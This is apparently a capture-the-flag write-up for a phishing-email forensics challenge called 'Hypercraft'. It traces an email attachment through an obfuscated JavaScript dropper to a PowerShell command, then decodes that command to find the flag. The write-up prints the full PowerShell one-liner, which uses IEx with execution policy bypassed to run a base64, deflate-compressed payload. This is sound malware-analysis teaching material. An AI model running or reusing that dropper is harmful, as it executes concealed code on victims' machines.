




# Hypercraft
> This email seems to have come from one of our agents, Axel Knight, but Axel has been missing for weeks, and we believe him to be compromised. The email claims to have information that could be vital to our winning this war, but before we use it, we want to make sure it is safe to open. Analyze the given email and see if it's real, or if it's just the Arodorians trying to phish us, and find the flag.

## About the Challenge
We have been given a `zip` file that contains a file with `eml` extension. If we open the `eml` file:



## How to Solve?
First, i downloaded the attachment file. And then if we opened the attachment file, we got another file called `[TOP SECRET]Hypercraft Plans.zip`


Extract the zip file, you will get a JavaScript file. Here is the preview of the js




As you can see, there is a very longggg text, and also there is some js code below the variable. Take the variable and then remove `/[sV]/g` and we got another js file


For this javascript code that we got earlier, i tried to run it using browser console (But i just run the code until variable called `ynvjonvw`). And then run `console.log(ynvjonvw)` to see the value of the variable



As you can see in the second element there is a powershell command like this

```powershell
"PoweRShElL -EXEcU  byPAss    'IEx(NEW-oBJeCT  SYsTeM.iO.COmpResSion.dEfLaTestReAm( [SySTem.IO.meMOrYStReAm] [convert]::FromBase64String(''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''),[SyStEM.IO.COMPreSSION.cOMPRessIONmodE]::DECOMPReSS)| FOrEach{NEW-oBJeCT  iO.sTReAMREaDEr( $_,[SYsTeM.TExt.eNcodiNg]::AsCii ) } ).reaDTOEnd( )'
"
```

For this part, i created another powershell code to decode the encoded string

```powershell
$base64data = "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"
$data = [System.Convert]::FromBase64String($base64data)
$ms = New-Object System.IO.MemoryStream
$ms.Write($data, 0, $data.Length)
$ms.Seek(0,0) | Out-Null

$sr = New-Object System.IO.StreamReader(New-Object System.IO.Compression.DeflateStream($ms, [System.IO.Compression.CompressionMode]::Decompress))

while ($line = $sr.ReadLine()) {  
    $line
}
```

This PowerShell code takes a base64-encoded data, decodes it, decompresses it using the Deflate algorithm, and then reads and outputs each line of the decompressed data. And here is the output of the program


Now, as you can see there are a lot of obfuscated variable, now tried to decode all the variables by running several sections of code one at a time and the flag was located in `$aetRsdf` variable



```
HTB{l0ts_of_l4y3rs_iN_th4t_1}
```